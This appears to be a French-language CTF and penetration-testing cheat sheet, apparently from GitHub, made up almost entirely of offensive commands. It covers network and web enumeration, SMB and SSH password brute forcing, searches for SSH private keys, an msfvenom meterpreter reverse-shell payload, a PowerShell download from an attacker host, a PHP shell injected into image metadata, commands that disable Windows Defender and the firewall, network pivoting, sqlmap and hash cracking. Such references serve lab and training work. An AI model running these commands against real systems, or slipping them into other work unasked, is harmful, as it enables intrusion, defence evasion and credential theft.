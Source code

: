 # CTF-Cheat-Sheet


__Reverse shell__ :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

__Scripts d’énumération automatique pour privesc__ :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

__Enumération__
#####
nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134
#####
__WEB__
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //"IPADDRESS"/ -U ""
__Enumération des répertoires partagés accessibles en anonymous__

rpcclient -U "" -N 10.10.10.180/
__Bruteforcer les RID des comptes Windows__

crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
__Bruteforce SMB avec crackmapexec__

enum4linux -a 10.10.10.180
__Enumération SMB, RPC & co (WINDOWS)__


dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test


__Exploitation & Elévation de privilèges [LINUX] :__
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
__Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet__

searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
__-> liste les commandes autorisées pour l’utilisateur courant__

find / -type d -writable 2> /dev/null
__-> Liste les répertoires accessibles en écriture__

find /* -user root -perm -4000 -print 2>/dev/null
__-> Liste les binaires exécutables par l’utilisateur courant__

find / -type f -perm /6000 -ls 2>/dev/null
__-> Liste les fichiers setuid/setgid sur le système__

find / -iname "mon_fichier" -print 2>/dev/null
__-> Trouver un fichier précis sur le système__

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
__-> Trouver des clés RSA ou des autorisations de connexion SSH__

grep -iR "passw"
__-> Rechercher du texte dans des fichiers d’une arborescence__

binwalk socute.jpg
__-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)__

exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


__Exploitation & Elévation de privilèges [WINDOWS] :__
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
__Se connecter via le port winrm__

https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
__Tester les privilèges de l’utilisateur__

whoami /priv
whoami /groups
__Liste des privilèges : https://github.com/gtworek/Priv2Admin__
__Lister les privilèges de l’utilisateur courant__

Get-Services
__Lister les services (Pour vérifier les unquoted services)__

Set-ExecutionPolicy Unrestricted
__Retirer les restrictions d’exécution de scripts__

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
__Télécharger un fichier depuis un serveur web__

msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
__Vérifier les exploits disponibles en fonction du systeminfo de la victime__

https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
__Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet__

powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
__Activer le RDP et désactiver le firewall__

Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
__Désactiver Windows Defender en Powershell__


__Pivoting :__
__Sous Windows :__
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
__Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2__
__Seul WINDOWS1 peut joindre WINDOWS2__

__sur le serveur (kali) :__
./chisel server --port 9000 --host 0.0.0.0 --reverse

__sur le client (WINDOWS1 172.16.1.1) :__
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
__On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali__

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2__

__Sous Linux :__
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
__Ici Kali peut joindre LINUX1 mais pas LINUX2__
__Seul LINUXS1 peut joindre LINUX2__

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
__On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000__

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2__


__Injection SQL :__
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


__Bruteforce :__
__Cracker un hash SHA 512 avec un salage__
__Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :__
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

__Cracker un zip chiffré avec une liste de mots de passe__
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
__tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)__

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
__Pour bruteforcer de façon incrémentale__

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
__Pour bruteforcer avec un dictionnaire__

__Script de bruteforce anti-CSRF :__
https://github.com/J3wker/anti-CSRF_Token-Bruteforce
